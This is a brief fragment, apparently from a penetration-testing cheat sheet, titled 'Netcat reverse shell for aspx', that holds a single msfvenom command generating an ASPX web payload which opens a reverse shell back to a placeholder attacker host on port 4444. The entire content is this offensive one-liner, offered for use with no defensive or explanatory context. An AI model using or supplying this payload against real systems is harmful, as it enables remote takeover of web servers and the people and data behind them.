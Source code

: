 
Netcat reverse shell for aspx
```
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=4444 -f aspx > shell.aspx
```